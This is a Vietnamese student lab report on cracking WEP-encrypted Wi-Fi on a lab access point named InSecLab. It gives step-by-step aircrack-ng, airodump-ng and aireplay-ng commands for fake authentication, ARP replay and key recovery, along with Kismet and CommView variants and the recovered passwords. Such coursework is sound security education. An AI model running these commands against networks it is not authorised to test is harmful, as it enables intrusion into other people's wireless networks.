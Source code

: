 # Báo cáo đồ án môn học
## 1. Sử dụng Aircrack-ng + Airodump-ng + Aireplay-ng để bẻ khóa các mật mã đơn giản
### Bước 1: Tìm đối tượng để thực hiện tấn công.
Sử dụng **airodump-ng** để tìm kiếm các wifi có mã hóa WEP
```sh 
 $ airodump-ng wlan0mon
```
![Thu thập thông tin wifi lân cận](images/airodump-ng.png)
Các thông tin về wifi:
- BSSID: **C0:4A:00:71:34:9c** (là địa chỉ MAC của AP).
- Channel: **11** (kênh giao tiếp của AP).
- ESSID: **InSecLab** (tên của wifi).
- Wifi sử dụng mã hóa **WEP**.

Thực hiện chuyển channel của wlan0mon thành **11** (giống với channel của AP)
```sh
 $ iwconfig wlan0mon channel 11
```

### Bước 2: Kiểm tra Packet Injection
```sh
 $ aireplay-ng -9 -e InSecLab -a C0:4A:00:71:34:9C wlan0mon
```
- -9 là lựa chọn Injection test.
- -e là tên của wifi.
- -a là địa chỉ MAC của AP.
- wlan0mon là wireless interface.

Kết quả nhận được khi thực hiện lệnh trên
![alt](images/injection_test.png)
=> Kết quả trả về thành công (**30/30: 100%**)

### Bước 3: Sử dụng airodump-ng để bắt các IV (Initial Vector)
Ở bước này chúng ta sẽ sử dụng ***airodump-ng*** để bắt các **IV** được tạo ra bởi AP.
```sh
 $ airodump-ng -c 11 --bssid C0:4A:00:71:34:9C -w CaptureIV wlan0mon
```
- -c 11 là channel của mạng wifi.
- --bssid **C0:4A:00:71:34:9C** là địa chỉ MAC của AP.
- -w CaptureIV là file chứa những IV bắt được.
- wlan0mon là wireless interface.

![alt](images/CaptureIV.png)

### Bước 4: Sử dụng aireplay-ng để tạo xác thực giả với AP
Nếu không có các kết nối nào khác vào AP thì sẽ không tạo mới các IV. Nên ta sẽ tạo ra các xác thực giả đến AP nhằm tạo ra các IV và bắt nó.
```sh
 $ aireplay-ng -1 0 -e InSecLab -a C0:4A:00:71:34:9C -h 00:0c:29:b8:bf:f1 wlan0mon
```
- -1 nghĩa là xác thực giả.
- 0 là thời gian để gửi lại gói tin.
- -e **InSecLab** là tên của wifi.
- -a **C0:4A:00:71:34:9C** là địa chỉ MAC của AP.
- -h **00:0c:29:b8:bf:f1** là địa chỉ MAC của máy chúng ta.
- **wlan0mon** là wireless interface.

![alt](images/fakeauth.png)
=> Gửi xác thực giả thành công.

### Bước 5: Sử dụng aireplay-ng tăng tín hiệu ARP để tạo ra nhiều IV
```sh
 $ aireplay-ng -3 -b C0:4A:00:71:34:9C -h 00:0c:29:b8:bf:f1 wlan0mon
```
![alt](images/ARP.png)

### Bước 6: Chờ để thu thập đủ IV cho việc crack
![alt](images/IVCrack.png)

### Bước 7: Sử dụng aircrack-ng để tìm password của AP
```sh
 $ aircrack-ng -b C0:4A:00:71:34:9C CaptureIV-01.cap
```
![alt](images/solve.png)
- Thời gian để tìm ra password là **0s**
- Password: **1234567890**

## 2. Sử dụng Kismet để Crack WEP

Sử dụng Kismet để kiểm tra các Wifi xung quanh
```sh
 $ kismet -c wlan0mon
```
Sử dụng giao diện người dùng của Kismet
![alt](images/kismet/KismetUI.png)

Nhấp vào tên wifi để xem thông tin của wifi đó (trong bài thực hành này là InSecLab)
![alt](images/kismet/wifiinfo.png)
![alt](images/kismet/wifiinfo1.png)
- Thông tin bao gồm tên Wifi
- Địa chỉ MAC của AP
- Channel của AP
- Mã hóa WEP

Sau khi thu thập được địa chỉ **MAC**, **ESSID**, **CHANNEL** của AP ta sẽ tiến hành crack nó theo các bước đã trình bày ở trên.

Tiến hành thu thập **IVs**
![alt](images/kismet/kismetIVs.png)

Tiến hành crack Wifi
```sh
 $ aircrack-ng -b C0:4A:00:71:34:9C CaptureIV.pcap
```

Kết quả
![alt](images/kismet/res.png)
=> Pass wifi: ***1234567890***

## 3. Sử dụng CommView để Crack WEP
Sử dụng CommView để kiểm tra các mạng wifi xung quanh
![CommViewScan](images/Commview/scan.png)

Xem thông tin của mạng wifi InSecLab
![CommViewInfo](images/Commview/info.png)

Cấu hình để CommView bắt các gói tin của AP InSecLab và lưu vào file log

Cấu hình Channel để CommView bắt gói tin
![CommViewConfig](images/Commview/config1.png)

Cấu hình nơi lưu trữ file log
![CommViewConfig](images/Commview/config2.png)

Tiến hành bắt gói tin
![CommViewCapture](images/Commview/capturepacket.png)

Chúng ta sẽ bắt đủ gói tin để thu thập đủ số IV cần thiết để crack WEP. Trong CommView, sau khi thu thập đủ số gói tin ta sẽ xem nó dưới dạng log
![CommViewLog](images/Commview/log.png)
- Tiến hành Export file log thành file pcapng

Sau đó chúng ta sẽ sử dụng lệnh sau để chuyển đổi file **pcapng** thành file **pcap**
```sh
 $ tshark -F pcap -r raw.pcapng -w CaptureIV.pcap
```
Thực hiện crack sử dụng **aircrack-ng**
```sh
 $ aircrack-ng CaptureIV.pcap
```
Vì CommView bắt các gói tin dựa trên 1 channel cụ thể (do mình chỉ định hoặc có thể bắt các gói tin trên mọi channel) nên trong gói tin **pcap** không chỉ hiển thị AP mà ta muốn Crack mà còn rất nhiều AP khác chạy cùng channel với channel của AP muốn Crack. Nên chúng ta phải chọn tên của AP muốn Crack để **aircrack-ng** thực hiện nhiệm vụ.

Kết quả sau khi chạy lệnh trên
![CommViewRes](images/Commview/res.png)
=> Mật khẩu: ***chudt***